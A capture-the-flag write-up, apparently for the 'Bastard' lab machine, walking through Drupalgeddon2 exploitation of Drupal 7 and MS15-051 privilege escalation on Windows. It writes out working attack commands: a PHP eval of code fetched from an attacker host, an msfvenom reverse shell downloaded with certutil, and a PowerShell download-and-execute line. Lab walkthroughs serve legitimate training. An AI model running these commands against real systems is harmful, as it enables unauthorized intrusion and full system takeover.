

# Bastard

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 7.5
- port 135/tcp RPC
- port 49154/tcp RPC

port 80 shows a login page for Bastard, powered by Drupal (CMS)

Drupal version 7, vulnerable to Drupalgeddon2 RCE https://www.exploit-db.com/exploits/44449

### Exploitation

The default exploit reverse shells didn't work so used the command execution function of the exploit and 
metasploit's web_delivery module to get a reverse PHP meterpreter shell

`php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.10.10:8080/BAL6I4S8puN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"`

Unfortunately the meterpreter shell times out and we cannot migrate from a PHP meterpreter shell

The AV was interfering with the shell as using port 443 for the reverse shell works

Using [pimps version of CVE-2018-7600]@(https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) we can upload a reverse shell to the target (44449.rb works too)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o shell.exe`

`python3 pimps-exploit.py -c 'certutil -urlcache -f http://10.10.10.10/shell.exe C:\temp\shell.exe' http://10.10.10.9`

Then execute it with a netcat listener on port 443

`python3 pimps-exploit.py -c 'C:\temp\shell.exe' http://10.10.10.9`

We can use powershell to download and execute sherlock to find privesc vectors. Host sherlock.ps1 with a
python server and use powershell to download and execute it (Don't forget to add `Find-AllVulns` to the last 
line of sherlock)

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:80/sherlock.ps1') | powershell -noprofile -` - [great cheatsheet here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)

### Privilege Escalation

Working our way down the list we find that the target is vulnerable to [MS15-051 (use zip)](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/README.md)

Upload the exe to the target and run `ms15-051x64.exe "cmd.exe"` to get a System cmd prompt
